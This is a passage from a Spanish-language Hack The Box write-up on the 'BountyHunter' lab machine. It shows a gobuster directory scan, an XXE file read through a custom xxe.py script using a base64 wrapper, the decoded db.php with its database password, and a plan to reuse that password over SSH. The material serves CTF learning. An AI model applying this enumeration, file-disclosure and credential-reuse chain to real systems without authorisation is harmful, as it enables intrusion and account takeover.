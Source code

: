 * ```gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.11.100 -x "php,html,txt" -t 100 --no-error```

![](/images/HTB/BountyHunter/62-db.php.png)

Se encuentra un archivo llamado ```db.php``` que se encuentra en la raíz de la web. Al utilizar nuestro script ```xxe.py``` con el modo **wrapper** para encodearlo en base64, se obtiene la siguiente string.

![](/images/HTB/BountyHunter/65-python-script-wrapper-db.php.png)

```plaintext
PD9waHAKLy8gVE9ETyAtPiBJbXBsZW1lbnQgbG9naW4gc3lzdGVtIHdpdGggdGhlIGRhdGFiYXNlLgokZGJzZXJ2ZXIgPSAibG9jYWxob3N0IjsKJGRibmFtZSA9ICJib3VudHkiOwokZGJ1c2VybmFtZSA9ICJhZG1pbiI7CiRkYnBhc3N3b3JkID0gIm0xOVJvQVUwaFA0MUExc1RzcTZLIjsKJHRlc3R1c2VyID0gInRlc3QiOwo/Pgo=
```

al decodificarla se obtienen credenciales para una base de datos.

![](/images/HTB/BountyHunter/68-db.php-content.png)

```php
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
?>
```



Ahora que se tienen credenciales, se pueden testear contra el servicio SSH.
